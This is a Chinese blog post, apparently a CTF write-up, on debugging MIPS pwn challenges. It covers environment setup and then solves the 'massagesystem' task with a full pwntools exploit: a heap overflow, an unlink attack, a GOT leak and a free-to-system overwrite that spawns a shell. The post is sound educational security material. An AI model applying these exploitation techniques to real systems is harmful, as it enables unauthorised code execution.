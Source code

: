 ```yaml
---
layout:     post
title:      mips架构 pwn入门之路
subtitle:   学习mips架构下pwn题目的调试
date:       2020-11-2
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - mips pwn
    - wp


---
```


## 环境搭建

网上大师傅们都讲的很详细了

我是看着[这个师傅的博客](https://ray-cp.github.io/archivers/MIPS_Debug_Environment_and_Stack_Overflow)装的环境，但是ida插件mipsrop没有安装成功

### 安装ghidra

再[官网](https://ghidra-sre.org/)下载（需要java环境）

直接用命令行打开ghidraRun文件即可打开

[使用详解](https://zhuanlan.zhihu.com/p/59637690)



## 例题复现

### 西湖论剑2020线上赛 massagesystem

题目提供文件

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazeivmkxj30x205e3yw.jpg)

`./run.sh`可以直接运行

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkayvuy8w5j312y08iwh5.jpg)

32位的mips小端序程序，保护全关

调试

可以一个shell直接打开

```shell
qemu-mipsel-static -g 1234 -L ./ ./ma
```

或者与pwntools联动

```python
from pwn import*
import sys

context.binary = "ma"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
  p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
  p = process(["qemu-mipsel-static", "-L", "./", "./ma"])
else:
  p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./ma"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```



用ghidra打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazjq2bzgj31da0u0qe0.jpg)

漏洞在modify函数里

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazjwggrsj313g0qcjt6.jpg)

可以看到在编辑的时候溢出了8个字节，正好可以控制下一个chunk的prev_size和size，可以用unlink将一个chunk改为储存堆地址的note_list的前面，之后再泄露got表中的libc地址、修改got表，即可getshell

由于不能使用heap、bin等指令查看堆分配情况，可以在分配堆的函数后下一个端点，查看返回的堆地址

exp:

``` python
from pwn import*
import sys

context.binary = "ma"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./", "./ma"])
else:
    p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./ma"])

li = 0x0411830
free_got = 0x4117B4
#b *0x00400cc4
#b* 0x004012c4

ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(sz,con):
	ru('>>')
	sl('1')
	ru('length:')
	sl(str(sz))
	ru('info:')
	sl(con)

def delete(idx):
	ru('>>')
	sl('2')
	ru('user:')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('>>')
	sl('3')
	ru('edit:')
	sl(str(idx))
	ru('info:')
	sl(con)

add(0x80,'aaa')
add(0x80,'bbb')
add(0x80,'ccc')
add(0x20,'/bin/sh')
edit(0,p32(0)+p32(0x81)+p32(li-12)+p32(li-8)+'a'*0x70+p32(0x80)+p32(0x88))
delete(1)
edit(0,p64(0)+p32(li)+p32(0x80)+p32(free_got)+p32(0x8))

show(1)
p.recvuntil('info: ')
libc_base = u32(p.recv(4)) - 0x56B68
system = libc_base + 0x5F8F0

edit(1,p32(system))
delete(3)


ia()


```

